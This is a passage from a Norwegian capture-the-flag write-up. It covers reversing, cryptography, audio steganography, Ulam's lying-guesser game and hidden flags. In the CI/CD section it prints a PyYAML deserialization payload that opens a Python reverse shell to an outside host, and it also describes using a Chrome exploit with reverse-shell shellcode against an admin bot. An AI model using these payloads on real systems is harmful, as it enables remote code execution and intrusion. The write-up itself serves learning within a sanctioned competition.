Programmet her virket mer avansert å reverse, enn å bare forsøke å forstå det via blackboxing. Ved å kjøre ulike mengder av bokstaven "A" inn i programmet, er det mulig å observere at

1. Lengden på output er kortere enn output, for en gitt mengde bokstaver.
2. Starten på filen er filnavnet, en nullbyte, og så en P, etterfulgt av deler av inputen.
3. Resten av filen er hovedsaklig R og noen andre bytes, når input bare er samme bokstav.

Her er det altså en komprimeringsalgoritme i bruk. `P` ser ut til å definere noen bytes direkte, hvor første byte etter P angir hvor mange bytes som skal gå til output. En `R`, derimot, har 2 tall etter seg. De tallene angir hvor langt bakover i output-strømmen man skal gå bakover, og hvor mange bytes som skal skrives ut fra det punktet. For å dekode flaggfilen, kan man derfor gjøre noe sånt som dette

```python
fname = "output.bin"

data = open(fname, "rb").read()
real_fname, data = data.split(b"\x00", maxsplit=1)

out = b""
i = 0
while i < len(data):
    if data[i] == b'P'[0]:
        L = data[i+1]
        out += data[i+2:i+2+L]
        i += 2 + L
    elif data[i] == b'R'[0]:
        S = data[i+1]
        L = data[i+2]
        out += out[-S:-S+L]
        i += 3
    else:
        i += 1

with open(real_fname.decode(), "wb") as fd:
    fd.write(out)
```


### 3.2. Utfordringer middels

#### 3.2.1_krypt_middels

> Programmet MTKrypt har kryptert en melding. Kan du dekryptere meldingen?
>
> Flagget er på formen etj{et_ikke_veldig_vist_visdomsord} 

Denne tok litt tid å finne ut av, men flyten i programmet initialiserer MT-Rand (Mersenne-Twister) med standardparametere. Deretter genereres det en haug med tall, før MT-Rand initialiserer på nytt med et dynamisk valgt seed, og deretter XORer 4 og 4 bytes fra flagget med en fersk 32-bit output fra PRNGen. Hva initialiseres MT-Rand med den andre gangen? Tiden det tok å generere de første tallene (i nanosekunder)! Dette kan brute-forces, men vi må ha samme implementasjonen av Mersenne-Twister som C++ bruker. Python bruker nemlig også MT i sin random-modul, men seedingen er implementert helt ulikt.

Vi vet de 4 første bytene av flagget ('etj{'), så det er det eneste vi trenger å se etter.

```python
from Crypto.Util.number import long_to_bytes as l2b

flag = bytes.fromhex(open("flagg.txt.mt").read())

for seed in range(10_000_000):
    rng = mersenne_rng(seed)
    if xor(l2b(rng.get_random_number())[::-1], flag) == b'etj{':
        out = b""
        rng = mersenne_rng(seed)
        for i in range(0, len(flag), 4):
            out += xor(l2b(rng.get_random_number())[::-1], flag[i:i+4])
        print(out)
        break
```

På seed `194990` kommer det et flagg `etj{den_som_kjenner_starten_kan_finne_slutten}`

#### 3.2.2_lyd_nøtt_1

> To oppgaver i en fil, den ene lettere enn den andre.
> Flaggene skal oppgis i store bokstaver uten mellomrom.

Starten av filen inneholder mange lydklipp, som alle nevner ordet "spektrum", eller noe som ligner. I spektrogrammet til en lydfil kan man gjemme litt av hvert, og her er ingen unntak. Audacity må konfigureres litt for å vise spektrum for de høyeste frekvensene, og da får man dette



Det var ikke videre enkelt å lese ut hvilke bokstaver som er i bruk her, men etter en antagelse om at alle er upper-case får jeg `GZNJVPRHUMVJIFFE`. Når jeg prøver å sende inn dette til scoreboard, får jeg en melding:

> Dette ser ut som en ciphertext, kanskje det finnes en nøkkel et sted

Her satt jeg fast en stund, til jeg begynte å legge på noen ekstra filtere. Det er nemlig gjemt noe mer i de lavere frekvensene også



Ikke så tydelig uten filtre, men her gjemmer det seg Morsekode. Ved å fokusere mer på frekvensområdet rundt 592 Hz, og sette opp kontrasten mellom intensitetene en smule, er det mulig å lese ut Morse-kode som oversettes til `NOEKKELERBONDPASSFILTERBRUKNORSKALFABET`.

I Sonic Visualizer, med Sunset, dBV^2 scale, og vindu på 4096 samples (93.75%) og logaritmiske bins blir det litt tydeligere.


Det er ikke helt klart hva det neste steget er, men hvis vi antar at det er en enkel alfabet-basert algoritme i bruk, så er vel kanskje keyed Caesar eller Vigénere gode valg. Sistnevnte ender opp med å være riktig, og `GZNJVPRHUMVJIFFE` er ciphertext, mens `BONDPASSFILTER` er key. Norsk alfabet må brukes, slik at ÆØÅ også er med. Flagget blir da `FLAGGPÅSPEKTERET`.

#### 3.2.3_lyd_nøtt_2

Fra rundt 00:15 og utover, kommer frasen "Scotty, beam me up!" etterfulgt av en del modem-lignende lyder. For de med litt CTF-erfaring, er det enkelt å gjenkjenne dette som [SSTV](https://en.wikipedia.org/wiki/Slow-scan_television), hvor en av modusene heter "Scottie 1". Det finnes veldig mange programmer og apper som kan dekode signalet, og resultatet er et bilde.


Flagget er uten mellomrom: `Japanskflagg`

#### 3.2.4_vond_curry

> Jeg spiste akkurat en skikkelig vond curry, tror noen har har hatt altfor mange funksjoner i denne.
> Flaggformat: etj{[a-zA-Z0-9?()<>!*$., ]+}

Ekstra spicy flaggformat.

Her støter vi på kompilert [Haskell](https://www.haskell.org/). Skallet rundt dette programmeringsspråket er stackbasert, og dermed sliter en del verktøy med å finne ut hvordan ting henger sammen. Funksjonaliteten som kalles, er derimot mulig å gjenskape basert på mønstre i koden, og dette finnes det verktøy som kan gjøre (f.eks. hsdecomp). Dessverre er ikke disse verktøyene særlig gode, og jeg ble nødt til å modifisere de betraktelig for å få ut noe nyttig.

Etter mye formatering og resolving av variabler, fikk jeg [noe output som ga mening](curry.hs). Dette er nemlig matrise-multiplikasjon! Vi har ligningen `Ax = b` hvor `A` er en 38x38-matrise, `x` er flagget (inputen vår), og `b` er en vektor med lengde 38. Å løse dette er ganske enkelt i numpy eller Sage.

```python
sage: A = Matrix(ZZ, [[116, 157, ...], [151, 137, ...]])
sage: b = vector(ZZ, [383631, 348204, ...])
sage: print(bytes(A.solve_right(b)).decode())
etj{sum . zipWith (*) flagBytes <$> m}
```

Jeg forsøkte også å løse denne med instrumentering, og den klarte å finne at input-lengde på 38 tegn så interessant ut. Men noe mer enn det fikk den ikke til å løse, dels på grunn av de sære tegnene i inputen (som whitespace).


### 3.3. Utfordringer vanskelig

#### 3.3.1_krypt_vanskelig

> Programmet XKrypt har kryptert en melding. Kan du dekryptere meldingen?
> Flagget er et md5-hash

Ved første øyekast, er dette programmet ganske skremmende. Det er mye som skjer, og mange addisjoner, bit-rotasjoner og XOR-operasjoner. Denne typen bit-miksing kalles `ARX (add–rotate–XOR)` og er ikke uvanlig å se innen kryptografi. Etter å ha sammenlignet med noen varianter på nett, innså jeg at encrypt-funksjonene er `Salsa20` og `Chacha20`. Men i stedet for å plassere "expand 32-byte k" i initial state, og XORe med en ciphertext etter rundene er ferdig, så er det selve initial-staten vi er interessert i å gjenskape i dette tilfellet.

Flagget deles opp i segmenter på 64 bytes, og hver byte går så gjennom en rekursiv funksjon som kan anses som en substitusjon (se a() og t() under). Deretter brukes disse bytene som initial state for Salsa20, og så blir end-staten til initial-state for Chacha20. Output for hvert segment er hele staten (64 bytes). Operasjonene over gjentas for hvert 64-byte segment i input, og hvert segment behandles helt uavhengig av de andre.

Heldigvis er alle operasjonene i Salsa20 og Chacha20 fullstendig reversible, gitt at man vet den fulle tilstanden ved slutten. Denne er også gitt via filen `flagg.txt.x`, så dette skal være mulig å løse. Begge disse cipherene er veldig like i struktur, hvor de består av en operasjon kalt "Quarter-Round" som gjøres 4x2x10 ganger. Først 4 ganger på ulike kolonne-kombinasjoner, etterfulgt av 4 ganger til - enten på rader eller diagonaler, avhengig av cipher. 

Ved å holde tunga beint i munnen, er det mulig å implementere en algoritme som kjører både Salsa20 og Chacha20 baklengs. Og da gjenstår bare transformasjon-funksjonen `a()`, som ser ut til å være relatert til Collatz 3n+1 conjecture (mindre kjent som "Ulam conjecture"). Siden vi vet at input er en md5sum, er det mulig å lage en lookup mellom hexbytes og outputs fra denne funksjonen.

```python
def a(a1):
    if a1 == 1:
        return 1
    if a1 & 1 != 0:
        return a(3*a1+1) + 1
    else:
        return a(a1//2) + 1

def t(x):
    v10 = (5 * ord(x)) >> 1
    v11 = v10 + 2 * a(ord(x)) - 1
    return v11 & 0xff

lookup = {t(c):c for c in "abcdef0123456789"}

enc = bytes.fromhex(open("flagg.txt.x").read().strip())

for flag in (enc[:64], enc[64:]):
    c = ChaCha20()
    state = c.recover_state(bytes_to_words(flag))
    s = Salsa20()
    res = s.recover_state(state)
    rec = [long_to_bytes(e)[::-1] for e in res[::5]]
    for r in rec[::1]:
        for c in r:
            print(lookup[c], end="")
```

#### 3.3.x_guessing_game_x

Denne oppgaven tok meg desidert lengst tid å løse av alle oppgavene i CTFen. Man skal her spille et spill, hvor man skal gjette hvilket tall en AI (kalt "Ravn") tenker på. Spillet består av opp til **M** runder, hvor spilleren sender inn en liste over vilkårlige tall i rangen 0 til **N**-1 (inklusivt) og man får responsen "True" eller "False", hvor "True" betyr at tallet Ravn tenker på finnes i listen som ble sendt inn. Når som helst, kan man forsøke å gjette hva tallet faktisk er, og hvis man har riktig så vinner man spillet. Feil gjetning avslutter spillet.

Utfordringen med spillet, er at Ravn har lov å lyve opp til **K** ganger. I tillegg kan Ravn fint finne på å endre tallet sitt, eller hvilke av svarene som var løgn. Dette kan derimot ikke gjøres på en slik måte at det introduserer mer enn K løgner, og bare slik at alt faktisk ser riktig ut i etterkant for den som gjetter. En konsekvens av dette, er at hvis Ravn sitter igjen med bare 2 mulige tall som ikke er utelukket, så *vil det tallet som ikke gjettes av spilleren bli valgt 100% av gangene*. Spillet kan ikke vinnes med flaks alene, gitt en situasjon hvor Ravn kan åle seg ut av den.

Når man starter spillet, så kan man velge parameterne (K, M, N) selv. Men man får kun flagg ved å vinne spillet med en av disse oppgitte konfigurasjonene:

```
* N=64,   M=6,  K=0
* N=128,  M=13, K=1
* N=2048, M=15, K=1
* N=4096, M=23, K=3
```

Rent generelt om spillet, så kalles det ["Ulam's game"](https://en.wikipedia.org/wiki/Ulam%27s_game) (eller "Rényi–Ulam game" om man vil ha færre relevante treff i søkemotoren sin). Det ble presentert for ganske mange år siden i akademia, og så gjenoppdaget i nyere tid. Mange algoritmer og strategier er skrevet om Ulam's game, og dets varianter. Noen inkluderer situasjoner hvor man ikke får svar underveis, og dermed ikke har muligheten til å være adaptiv. Andre forutsetter at man bare kan stille spørsmål av formatet "Er tallet større enn X?", i stedet for å gi en liste over tall.


#### 3.3.2_guessing_game_1

**N=64, M=6, K=0**

Denne er ganske enkel. Ingen løgner gjør dette til et vanlig binærsøk. Det tar `log2(N)=6` forsøk å binærsøke seg fram til riktig verdi, og vi har også 6 forsøk. Vi sender derfor inn halvparten av tallene hver gang, og fortsetter å halvere settet over muligheter til vi sitter igjen med én verdi.

```python
def solve_1():
    N, M, K = 64, 6, 0
    game_id = start_game(N, M, K)
    cands = set(range(N))
    for _ in range(M):
        guess = sorted(cands)[:(len(cands)+1)//2]
        answer = ask_question(game_id, guess)
        if answer:
            cands = set(guess)
        else:
            cands -= set(guess)
    print(verify_guess(game_id, list(cands)[0]))
```


#### 3.3.3_guessing_game_2

**N=128, M=13, K=1**

Da jeg begynte på denne oppgaven, så hadde LESGMEG-filen feil parametre. Det sto **M=11** i stedet, og dette gjorde den betraktelig mer vanskelig enn nødvendig. Jeg ble nødt til å belage meg på litt flaks med hvordan tallene ble valgt underveis for å få det til å gå opp. Skuffelsen var stor, etter å ha endelig ha klart det, og å ha vært 1 spørring unna i evigheter - for så å ikke få noe flagg. Så finner jeg ut at jeg har 2 spørringer til gode...

Uansett - strategien for M=11 fungerer også på M=13. Her gjorde jeg først 7 spørringer av typen "Er bit 1 i tallet du tenker på satt", "Er bit 2 i tallet du tenker på satt?" osv. Etter disse spørringene, dobbeltsjekker jeg resultatene ved å kombinere de. Da får man noe sånt som "Gitt at svaret om bit 1, 2,  3 og 4 er riktig, stemmer det fortsatt at svarene om bit 5 og 6 også er riktig?", og man kan derfra "binærsøke" seg mot hvor det er en potensiell løgn. Ikke ulikt gåten hvor man skal finne en falsk mynt blant flere riktige mynter, hvor den falske veier marginalt mindre enn de andre, og man skal minimere antall ganger man veier. Forskjellen er at det ikke er sikkert at det er en falsk mynt i det hele tatt.

Til slutt blir Ravn nødt til å male seg langt nok inn i et hjørne til at tallet kan gjettes. Dette fungerer bare noen ganger, uten at jeg har gjort meg opp noen mening om hvor ofte, men estimert 30% sjanse for å vinne eller noe sånt. Litt av årsaken til dette, er at jeg hardkodet meg fram til en viss sekvens av spørringer, og hvis Ravn divergerer fra disse så avbryter jeg bare. Det var enklere enn å vedlikeholde samme logikken i et helt tre av muligheter.


#### 3.3.4_guessing_game_3

**N=2048, M=15, K=1**

Sammenlignet med 2, så er det 16x flere tall i omløp (4 bits mer), men bare 2 ekstra spørringer. Ulam's game for 1 løgn og en tallrekke på formen `2^x` ble løst av Andrzej Pelc allerede i 1986. Paperet hans ["Solution of Ulam's Problem on Searching with a Lie"](https://doi.org/10.1016/0097-3165(87)90065-3) inneholder en algoritme som er optimal, og den er også skrevet som pseudokode. Implementasjonen var ikke altfor vanskelig, gitt at man legger merke til at det er flere variabler med lignende navn (som "char" og "ch"). Med denne får man riktig svar hver eneste gang.

De viktigste funksjonene fra paperen er disse to, ellers er det bare avskrift på resten.

```python
def chunk(S, a):
    if a == 0: return set()
    return set(sorted(S)[:a])

def result(truth, lie, u, v, a, b, char, answer, N=2048):
    if answer:
        lie = chunk(lie, v).union(truth).difference(chunk(truth, u))
        truth = chunk(truth, u)
    else:
        lie = lie.difference(chunk(lie, v)).union(chunk(truth, u))
        truth = truth.difference(chunk(truth, u))

    a = len(truth)
    b = len(lie)
    char = min(j for j in range(1,N) if (a*(j+1)+b)<=2**j)

    return (truth, lie, a, b, char)
```

```python
def r(num):
    return int(round(num))

def solve_3():
    N, M, K = 2048, 15, 1
    game_id = start_game(N, M, K)

    truth = set(range(N))
    lie = set()
    a, b = len(truth), len(lie)
    char = 0

    guess = chunk(truth, r(N/2))
    answer1 = ask_question(game_id, list(guess))
    (truth, lie, a, b, char) = result(truth, lie, r(N/2), 0, a, b, char, answer1)
    ch = min(j for j in range(N) if (a*(j+1)+(a-1))<=2**j)

    while a > 1:
        if a % 2 == 0:
            t = l = a//2
        else:
            t = (a+1)//2
            l = max((a-1)//2 - r(ch/2), 0)

        weight = t*char + l + a - t
        adjust = min(b-(a-1), 2**(char-1) - weight)
        l += adjust

        guess = chunk(truth, t).union(chunk(lie, l))
        answer2 = ask_question(game_id, list(guess))
        (truth, lie, a, b, char) = result(truth, lie, t, l, a, b, char, answer2)
        ch = min(j for j in range(N) if (a*(j+1)+(a-1))<=2**j)

    while a==1 and b>=char:
        guess = truth.union(chunk(lie, r((b-char+1)/2)))
        answer3 = ask_question(game_id, list(guess))
        (truth, lie, a, b, char) = result(truth, lie, a, r((b-char+1)/2), a, b, char, answer3)

    if a==1 and b>0:
        guess = truth
        answer4 = ask_question(game_id, list(guess))
        (truth, lie, a, b, char) = result(truth, lie, a, 0, a, b, char, answer4)

    if a == 1:
        print(verify_guess(game_id, truth.pop()))
    else:
        while b > 1:
            guess = chunk(lie, r(b/2))
            answer5 = ask_question(game_id, list(guess))
            (truth, lie, a, b, char) = result(truth, lie, 0, r(b/2), a, b, char, answer5)
        print(verify_guess(game_id, lie.pop()))
```


#### 3.3.5_guessing_game_4

**N=4096, M=23, K=3**

Nå kan Ravn lyve hele 3 ganger, og da bryter de foregående metodene sammen. Underveis i prosessen av å løse denne serien med oppgaver, så jeg flere sammenligninger mellom dette spillet, og det å gjøre error-correction på data som sendes over en dårlig forbindelse. Dette satte meg etterhvert på sporet av noe jeg synes passet.

Møt [Golay code](https://en.wikipedia.org/wiki/Binary_Golay_code), en måte å enkode bits på, som gjør at det er mulig å detektere opp til 7 bit-feil (og fikse 3 av de) etter mottak. Golay-23 representerer en 12 bits melding som et 23 bits code word i stedet, hvor de resterende bitene er resultatet av en matrise-multiplikasjon over `GF(2)` (hvor addisjon er det samme som XOR). Her kombineres pariteten av ulike bits til å danne en redundant tilleggsinformasjon, slik at noen av bitene er flere bits XORet sammen.

Slike codewords har egenskapen som gjør at alle mulige meldinger har en differanse i 7 bits til alle andre meldinger, når de er i codeword-format. Hvis vi mottar data som matcher et kjent code word 100%, så har det enten skjedd ingenting med den, eller så har mer enn 7 bits blitt endret. Om mottatt code word ikke er et kjent et, så kan man se etter hvilke som er "nærmest" bit-messig, f.eks. ved å se på Hamming-weight mellom kjente code words og det man mottok. I "guessing game" vet vi derimot at det er maksimalt 3 løgner, og derfor aldri mer enn 3 "bit-feil".

Spørsmålet da, er hvordan man oversetter spørringen "Hva er XOR av bit a, b, c og d i tallet ditt?" til en range med tall som man sender inn. Og svaret på det, er at man bare genererer alle mulige codewords på forhånd, og filtrerer ut (og spør om) de som har en gitt bit satt. Løsningen min på denne, ender dermed opp som helt statisk. Jeg stiller **alltid** de samme 23 spørsmålene, og til slutt vet jeg hva tallet var med 100% sikkerhet. Første spørsmål spør om aller første bit i codewordet er satt, andre spørsmål spør om andre bit osv. 

I Sage kan man generere extended Golay Code programmatisk. Siden serveren ikke hadde Sage, så genererte jeg matrisene lokalt:

```
from sage.coding.golay_code import GolayCode
for i in range(12):
    print("guesses.append(" + str([e for e in range(4096) if (vector(GF(2), list(map(int, format(e,"012b"))))*GolayCode(GF(2)).generator_matrix())[i]==1]) + ")")
```

Dette genererer kopierbare lister, men for `Golay(24,7)`. For å løse oppgaven, så spør jeg først om hver bit, slik som i "3.3.3_guessing_game_2". Altså sender jeg inn en liste med alle tall mellom 0 og N som har bit 1 satt, så bit 2 osv. slik at hver spørring inneholder 2048 tall. Deretter sender jeg inn spørringene generert med GolayCode, men jeg hopper over den aller første, siden den er helt lik spørringen "er bit 12 satt?" som allerede er stilt. Resultatet er 23 spørsmål, som alltid kan stilles, uten å måtte reagere på tilbakemeldinger fra Ravn.

Gitt en liste over alle codewords, på formatet

```python
codewords = [
             (0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0),
             (0, 1, 0, 1, 1, 1, 0, 0, 0, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 1),
             ...]
```

kan vi enkelt finne ut hvilket codeword som er nærmest svarene våre, ved å summere sammen bits i GF(2) (også kalt Hamming weight). Dette lager en liste over hvor mange bits som er forskjellig for hvert codeword, sammenlignet med svarene vi har fått. Det korrekte codewordet skal ha en differanse på 0, 1, 2 eller 3 bit-feil i forhold til svarene vi har fått. Indeksen til den minste Hamming-weighten er altså tallet vi er ute etter.

```python
cands = [sum([int(c+a)%2 for (c,a) in zip(code, answers)]) for code in codewords]
answer = cands.index(min(cands))
print(verify_guess(game_id, answer))
```


### 3.4 Utfordringer umulig

#### 3.4.12_selenium_admin_user

Allerede på `2.02_blog_1` er det mulig å se på `/logs` og observere hvor ekstremt utdatert nettleseren til `admin` er.

> Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36

Denne finnes det mange sårbarheter i, blant annet `CVE-2020-16040`. Med antagelse om at admin-boten kjører uten sandbox, testet jeg ut en public exploit, men med egenprodusert shellcode som laget reverse shell til Corax. Herfra fikk jeg shell i noen titalls sekunder til sammen, noe som var nok til å finne user-flagget. Initielt var dette verdt 64 poeng, men etter at mange begynte å finne dette, ble poengene erstattet med "stjerner i margen" på scoreboard.


#### 3.4.15_cicd_user

Dette flagget ble lagt til noe senere, men i forbindelse med `2.11_cicd` endrer man på en fil i YAML-format. Ved å introdusere syntaksfeil og logiske feil i denne, var det mulig å framprovosere feilmeldinger som lekket stacktrace, og dermed litt av koden. En av linjene som feilet var

```python
self.yaml_obj = yaml.load(data, Loader=yaml.Loader)
```

Hvor det bør ringe noen varsellamper for de som har vært borti YAML og Python før. Man skal alltid bruke SafeLoader, aldri Loader, ellers kan man opprette egne Python-objekter. De som vedlikeholder PyYAML har forsøkt å blokkere det meste, men det er fortsatt trivielt å lage objekter som kjører vilkårlig kode, og dermed gir RCE.

Jeg sendte derfor inn en yaml-fil som så slik ut

```yaml
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:exec
  - [ "import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.x.x.x',1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn('/bin/sh')" ]
```

og kopierte over netcat på workstation-serveren for å lytte på oppgitt port. Dette gir tilgang til litt av hvert "bak forhenget" i CTFen, men hovedsaklig `deploy.py`-scriptet som inneholder flaggene for `2.11_cicd` og `2.12_position`. Denne serveren brukes kun til å kjøre git server + hooks på, så det er ikke stort mer å finne.


## 4. Skjulte flagg

Disse ga ikke poeng, men de var synlige på scoreboard, og dreide seg om å utforske materiale og maskiner i større detalj enn det som var nødvendig for oppdraget.

### 4.1_corax_dev_shm

På Corax - serveren man logger seg på initielt - ligger det en skjult fil, som kan leses av alle.

```
login@corax:~$ ls -la /dev/shm
total 4
drwxrwxrwt 2 root root  60 Jan 14 09:03 .
drwxr-xr-x 5 root root 340 Jan 14 09:03 ..
-rw-r--r-- 1 root root  40 Jan 14 09:03 .secret
```

### 4.2_blog_hidden_message

På bloggen, er det noe merkelig med ene meldingen sendt 2021-10-29

> GoldThrone
> as wE Talked about during the  lasT meEting, foxcatcheR and beRrygood lEave on monday, and They will  stay there for a week. based oN what they fINd, we have a meetinG to  decide which of the plans are most suitable and any backup plans we must have ready 

Ved å hente ut bokstavene som er store, blir det "ETTERRETNING", og det er også et flagg.

### 4.3_jwt_hidden_flag

Når man logger inn på bloggen i oppdraget, så får man en cookie med logindata. Denne er basert på JSON Web Tokens (JWT), og dataene som lagres er i klartekst, sammen med en signatur. Blant dataene befinner det seg et flagg. Man kan enkelt dekode denne som 3 ulike (urlsafe) base64-segmenter.

### 4.4_turbine_hidden_flag

Denne kan nås når man får tilgang til `/vault/loot/` som root i `2.08_lootd_3`, (eller ved å gjette seed for filnavn og utnytte symlinks for å unngå sjekk mot keyfile). Blant alle dokumentene, som for det meste inneholder "Lorem ipsum ...", ligger det et flagg på bunnen av det som har tittel "Plan no.03 Turbines".

### 4.5_workstation_emacs_flag

På bunnen av `.bashrc` på workstation-maskinen finner vi følgende:

```
alias vim='emacs'
alias vi='emacs'
alias code='emacs'
alias nano='emacs'
alias ed='emacs'
alias nvim='emacs'
```

altså er utvikleren veldig fan av emacs. Inne i [.emacs.d/init.el](init.el) ser vi også et mystisk script.

```
(require 'subr-x)
(require 'seq)

(defvar *noise* "Ë̛͙̾̂͝T̡̻͒᷁͒J̴̵͉̞͔̀{̧̘̃̉̉᷍G̸͉̠⃬̒N̼̝᷾̽͒̈́Ű̼⃭̤͛̈́ ͖⃬̾̄̄́T⃘̸͍⃕́̈U⃯̥⃔⃗̇᷍L̼᷁̑᷀͠L⃒̘̜⃰᷇̕Ẻ͈⃔⃕͝R̛̘͓⃑̓̽ ͕᷀͊͑̒︤D͇̘̲᷇⃡Ư⃯̱⃕͛͟ ⃓̭⃯⃮᷆᷁V̨̟̯᷿̘⃐E᷿͖⃜᷾̾L̪͍⃛̑᷇?⃓͙⃑̈͌᷾\͓̰̆̏⃗!⃚͚͕̰᷊͍̓̀᷈̑͒͘🕵̘̹͋̑͗͠}̐⃡̀͌͆͡")

(defun denoise (sequence)
  (thread-last sequence
    (seq-filter (lambda (c) (< c 255)))
    (mapcar 'string)
    (string-join)))

(defun check-sanity ()
  (when (member (getenv "EDITOR")
                '("vi" "vim" "code" "nano"))
    (let* ((less-noisy (denoise *noise*))
           (prefix (seq-subseq less-noisy 0 3)))
      (with-current-buffer "*scratch*"
        (insert
         (mapconcat 'string
                    (append (mapcar 'downcase prefix)
                            (nthcdr 3 (string-to-list less-noisy)))
                    ""))))))

(check-sanity)
```

Kort fortalt, så sjekker dette om EDITOR er satt til en kjent editor i en gitt liste, og så filtreres det vekk "støy" fra en gitt streng, ved å slette alle tegn som har ascii-verdi større enn eller lik 255. Resultatet blir `ETJ{GNU TULLER DU VEL?!}`.

